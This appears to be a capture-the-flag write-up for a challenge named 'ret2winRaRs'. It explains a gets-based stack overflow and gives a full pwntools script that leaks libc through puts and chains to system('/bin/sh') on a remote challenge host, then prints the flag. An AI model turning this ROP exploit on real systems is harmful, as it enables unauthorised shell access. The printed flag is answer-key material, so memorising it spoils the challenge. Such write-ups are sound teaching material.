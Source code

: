 # ret2winRaRs

## Challenge

A simple challenge that calls `gets`:

```c
void sym.get_license(void)
{
    char *s;

    sym.imp.gets(&s);
    return;
}
```

## Solution

The call to `gets` allows for a buffer overflow, which we can use to overwrite the return address and use a ROP chain.

Earlier, the program uses `puts`, which we can use to leak the address of libc.
Afterwards, we call `main` again so we can send a second payload to spawn a shell.

Using the libc functions, we can call `system("/bin/sh")` to spawn a shell with a second ROP chain.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 193.57.159.27 --port 41299 ret2winrars
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('ret2winrars')
libc = ELF('libc6_2.31-0ubuntu9.2_amd64.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '193.57.159.27'
port = int(args.PORT or 41299)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

payload = flat({
    0x20+0x8: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        exe.got['puts'],
        exe.plt['puts'],
        exe.sym['main'],
        ],
    })

io.sendlineafter(": ", payload)
leak = io.recvline()[:-1]

libc.address = u64(leak.ljust(8, b'\x00')) - libc.sym['puts']

io.success(hex(libc.address))

payload = flat({
    0x20+8: [
        rop.find_gadget(['ret'])[0],
        rop.find_gadget(['pop rdi', 'ret'])[0],
        next(libc.search(b'/bin/sh')),
        libc.sym['system'],
        ]
    })

io.sendlineafter(": ", payload)

io.interactive()
```

## Flag

`rarctf{0h_1_g3t5_1t_1t5_l1k3_ret2win_but_w1nr4r5_df67123a66}`

